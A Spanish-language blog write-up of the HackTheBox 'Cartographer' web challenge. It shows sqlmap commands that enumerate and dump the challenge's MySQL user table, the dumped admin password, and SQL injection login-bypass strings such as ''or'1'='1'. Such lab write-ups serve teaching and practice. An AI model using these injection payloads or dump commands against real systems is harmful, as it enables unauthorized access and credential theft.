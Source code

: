 ```yaml
---
title: Cartographer Writeup HackTheBox Web Challenge
description: Reto de HTB Web
date: 2019-12-01
lastmod: 2019-12-01
slug: ecartographer-writeup-hackthebox-web-challenge
image: "covers/htb.png"
tags:
  - hackthebox
  - writeup
  - web
  - http
  - burp
categories:
  - HTB
---
```



![img.png](img.png)

La descripción del reto es la siguiente:

_Some underground hackers are developing a new command and control server. Can you break in and see what they are up to?_



![Login](/images/2019/cartographer_login.png){:height="auto" width="100%"}




Con esta información no obtenemos ninguna pista de por donde empezar, por lo que la primera opción sera usar un ataque de fuerza bruta al login, pero lamentablemente no se ha conseguido obtener nada con varios diccionarios utilizados.




El segundo paso es probar con SQL Injection, ya que puede ser que funcione, para esto primero se probará con la herramienta _sqlmap_, que permite automatizar este proceso.


Para esto es necesario hacer primero un login y ver cual es la url a la que se envían los parámetros del POST. Se puede ver que se envía a la raíz y que los parámetros son _username_ y _password_. Con esta información ya se puede ejecutar la herramienta, podemos ver la ejecución a continuación:






La primera consulta que se ejecutará será para intentar obtener todas las bases de datos disponibles, esto se realiza con el siguiente comando:



```bash
sqlmap -u http://docker.hackthebox.eu:32093/index.php --data="username=a&password=b" -p "username" --method POST --level=5 --risk=3 --batch --dbs 
```


Obteniendo la siguientes bases de datos, esta claro que la que nos interesa es _cartographer_, por lo que el siguiente paso es obtener las tablas de esa base de datos.

```
available databases [5]:
[*] cartographer
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

```


Para obtener las tablas de la base de datos _cartographer_ ejecutaremos el siguiente comando:


```bash
sqlmap -u http://docker.hackthebox.eu:32093/index.php --data="username=a&password=b" -p "username" --method POST --level=5 --risk=3 --batch -D cartographer --tables 
```

La única tabla de la base de datos es users, por lo que ahora sería necesario ver los usuarios de esta tabla.


```
users
Database: cartographer
[1 table]
+-------+
| users |
+-------+
```



Para obtener los usuarios, se va a realizar un dump de la base de datos:


```bash
sqlmap -u http://docker.hackthebox.eu:32093/index.php --data="username=a&password=b" -p "username" --method POST --level=5 --risk=3 --batch -D cartographer --dump 
```

Con lo que obtendríamos las credenciales del único usuario que hay creado, que como se puede ver no esta preparado para sacar por fuerza bruta.


```
Database: cartographer
Table: users
[1 entry]
+------------------------------+----------+
| password                     | username |
+------------------------------+----------+
| mypasswordisfuckinawesome123 | admin    |
+------------------------------+----------+
```



Toda la información anterior se puede obtener unicamente con el siguiente comando:

```bash
sqlmap -u http://docker.hackthebox.eu:32093/index.php --data="username=a&password=b" -p "username" --method POST --level=5 --risk=3 --batch --dbs --dump
```


Además hemos obtenido la base de datos que hay, que podría ser usada para buscar alguna vulnerabilidad, esta base de datos es:

```
[21:53:25] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
```



Otra forma más rápida de conseguir un login correcto sería usar directamente SQL Injection sobre el formulario, por ejemplo se podrían poner cualquiera de las tres sentencias en usuario y contraseña:


```sql
'||'1'='1
'or'1'='1
aaa' OR '1'='1
```



Una vez puesto un login valido nos redireccionará a la url _http://docker.hackthebox.eu:32093/panel.php?info=home_, si la analizamos un poco, veremos que usa el fichero _panel.php_ y luego recibe como parámetro _info=home_.


Si usamos comandos como _dirb_ para buscar ficheros y directorios en la web, no se  conseguira nada.



Jugando con el parámetro _info=_ vemos que obtenemos un _Not Found!_, por lo que puede que estemos acercándonos al objetivo.


![error](/images/2019/cartographer_error.png){:height="auto" width="100%"}


Dado que es un CTF y se busca un flag, se prueba a poner _info=flag_ y justamente obtenemos el flag.


![flag](/images/2019/cartographer_flag.png){:height="auto" width="100%"}
